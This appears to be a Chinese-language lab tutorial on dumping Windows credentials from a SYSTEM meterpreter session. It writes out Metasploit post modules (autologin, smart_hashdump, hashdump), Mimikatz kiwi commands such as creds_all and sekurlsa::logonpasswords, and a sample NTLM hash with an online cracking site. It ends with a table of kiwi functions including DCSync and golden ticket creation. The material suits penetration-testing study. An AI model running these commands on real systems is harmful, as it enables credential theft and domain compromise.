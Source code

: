 # 一、环境准备

1 MSF-Metasploit Framework

2 一台windiows靶机

# 二、实战

首先获得一个有SYSTEM权限的meterpreter

![[1644493974746.png]]

1 抓取自动登录账户密码

2 导出SAM数据库本地账户密码文件

3 导出密码哈希

4 使用kiwi模块获取

---

1  很多人喜欢给在计算机设置自动登录 我们可以通过抓取自动登录的账户密码

run windows/gather/credentials/windows_autologin

如果提示这证明本机并没有配置自动登录

![[1644493985741.png]]

2  还可以通过导出SAM数据库中的本地用户账号（注意需要提权到SYSTEM）

run post/windows/gather/smart_hashdump



| 用户名 | SID  | LM哈希:                          | NTLM哈希1:::                     |
| ------ | ---- | -------------------------------- | -------------------------------- |
| mb     | 1000 | aad3b435b51404eeaad3b435b51404ee | 32ed87bdb5fdc5e9cba88547376818d4 |

![[1644494007420.png]]

3  使用  hashdump 获取密码（注意需要提权到SYSTEM才能使用）

终端内输入  run hashdump

![1644494019182](1644494019182.png)

使用在线解析工具  https://www.cmd5.com/

NTLM哈希 例子：32ed87bdb5fdc5e9cba88547376818d4

![1644494029236](1644494029236.png)

4  使用load kiwi（使用kiwi模块需要system权限）

kiwi_cmd 模块可以让我们使用mimikatz的全部功能， mimikatz 的命令直接在kiwi_cmd里直接使用

5.1 终端输入  load kiwi

5.2 creds_all  直接获取密码

![1644494040171](1644494040171.png)

5.3 使用  kiwi_cmd sekurlsa::logonpasswords  获取密码

![1644494050257](1644494050257.png)

| ID   | kiwi参数和描述                                         |
| ---- | ------------------------------------------------------ |
| 1    | creds_all：列举所有凭据                                |
| 2    | creds_kerberos：列举所有kerberos凭据                   |
| 3    | creds_msv：列举所有msv凭据                             |
| 4    | creds_ssp：列举所有ssp凭据                             |
| 5    | creds_tspkg：列举所有tspkg凭据                         |
| 6    | creds_wdigest：列举所有wdigest凭据                     |
| 7    | dcsync：通过DCSync检索用户帐户信息                     |
| 8    | dcsync_ntlm：通过DCSync检索用户帐户NTLM散列、SID和RID  |
| 9    | golden_ticket_create：创建黄金票据                     |
| 10   | kerberos_ticket_list：列举kerberos票据                 |
| 11   | kerberos_ticket_purge：清除kerberos票据                |
| 12   | kerberos_ticket_use：使用kerberos票据                  |
| 13   | kiwi_cmd：执行mimikatz的命令，后面接mimikatz.exe的命令 |
| 14   | lsa_dump_sam：dump出lsa的SAM                           |
| 15   | lsa_dump_secrets：dump出lsa的密文                      |
| 16   | password_change：修改密码                              |
| 17   | wifi_list：列出当前用户的wifi配置文件                  |
| 18   | wifi_list_shared：列出共享wifi配置文件/编码            |
